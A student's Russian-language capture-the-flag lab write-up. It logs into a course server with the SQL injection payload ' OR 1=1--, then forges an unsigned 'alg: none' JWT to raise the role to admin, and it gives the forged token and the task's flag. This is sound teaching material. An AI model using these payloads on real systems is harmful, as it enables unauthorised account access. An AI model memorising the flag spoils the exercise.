







Решить задание. Необходимо подключиться по адресу http://89.169.160.128:8080. Все для решения есть в https://github.com/swisskyrepo/PayloadsAllTheThings . В ответе вставьте флаг (текстовую строку в формате ITMO{...}), его вы получите когда зайдете под админской УЗ. Уделите внимание темам SQL Injection и JWT

Выполнила: Лесина Алёна, М4105


**Адрес:** http://89.169.160.128:8080  
**Справочник:** [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)  
**Темы:** SQL Injection, JWT

---

## Шаг 1. SQL Injection

Переходим по адресу http://89.169.160.128:8080 и в форме вводим 

| Поле | Значение |
|------|----------|
| **Username** | `' OR 1=1--` |
| **Password** | пустое или любой текст, например `123` |



При отправке формы сервер выполняет примерно такой SQL-запрос:

```sql
SELECT * FROM users WHERE username = '' OR 1=1-- AND password = ''
```

Разбор payload `' OR 1=1--`:

| Фрагмент | Назначение |
|----------|------------|
| `'` | закрывает кавычку в SQL-запросе |
| `OR 1=1` | условие, которое всегда истинно |
| `--` | комментарий - пароль и остальная часть запроса не проверяются |

В результате выполняется вход под первым пользователем из базы - `student`.

---

## Шаг 2. JWT

После успешного входа на странице отображаются данные пользователя:



```json
{
  "iat": 1781965945,
  "name": "ITMO Student",
  "role": "user",
  "sub": "1",
  "username": "student"
}
```

В cookies браузера появляется JWT-токен `auth`:



```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJzdHVkZW50IiwibmFtZSI6IklUTU8gU3R1ZGVudCIsInJvbGUiOiJ1c2VyIiwiaWF0IjoxNzgxOTY1OTQ1fQ.
```

Декодируем токен на [jwt.io](https://jwt.io):



В заголовке указано `"alg": "none"` - подпись не используется. Токен можно изменить без знания секретного ключа.

---

## Шаг 3. Смена роли на admin

Меняем в payload значение `"role": "user"` на `"role": "admin"`. Получаем новый токен:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzdWIiOiIxIiwidXNlcm5hbWUiOiJzdHVkZW50IiwibmFtZSI6IklUTU8gU3R1ZGVudCIsInJvbGUiOiJhZG1pbiIsImlhdCI6MTc4MTk2NTIwMX0.
```



Подставляем новый токен в cookie `auth` (F12 → Application → Cookies) и обновляем страницу.

Роль изменилась на `admin`, открывается доступ к `/admin`:



---

## Результат

**Флаг:**

```
ITMO{sql_injection_to_unsigned_jwt_admin}
```


